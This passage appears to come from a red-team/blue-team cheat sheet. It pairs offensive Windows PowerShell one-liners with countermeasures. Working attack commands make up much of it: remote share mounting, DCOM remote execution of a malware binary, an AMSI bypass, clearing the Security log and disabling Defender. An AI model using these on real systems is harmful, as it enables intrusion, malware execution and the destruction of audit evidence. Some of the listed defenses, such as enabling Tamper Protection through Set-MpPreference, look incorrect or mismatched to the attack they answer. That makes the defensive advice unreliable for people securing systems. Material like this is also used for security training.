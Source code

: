 #### **SMB Exec**  
**Offensive Command**:  
```powershell  
New-PSDrive -Name "X" -PSProvider FileSystem -Root "\\TARGET\C$" -Credential (Get-Credential)  
```  
**Defense**:  
```powershell  
# Enforce SMB signing  
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanManWorkstation\Parameters" -Name "RequireSecuritySignature" -Value 1  
```  

#### **DCOM Exploitation**  
**Offensive Command**:  
```powershell  
$dcom = [System.Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application", "TARGET")); $dcom.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c malware.exe", "7")  
```  
**Defense**:  
```powershell  
# Disable DCOM  
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Ole" -Name "EnableDCOM" -Value "N"  
```  

---

### **5. Defense Evasion**  
#### **AMSI Bypass**  
**Offensive Command**:  
```powershell  
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)  
```  
**Defense**:  
```powershell  
# Enable Tamper Protection  
Set-MpPreference -EnableTamperProtection $true  
```  

#### **Clear Event Logs**  
**Offensive Command**:  
```powershell  
wevtutil cl Security  
```  
**Defense**:  
```powershell  
# Forward logs to Splunk  
& "C:\Program Files\SplunkUniversalForwarder\bin\splunk.exe" add forward-server splunk-server:9997  
```  

#### **Disable Windows Defender**  
**Offensive Command**:  
```powershell  
Set-MpPreference -DisableRealtimeMonitoring $true  
```  
**Defense**:  
```powershell  
# Enable Tamper Protection  
Set-MpPreference -EnableTamperProtection $true  
```  
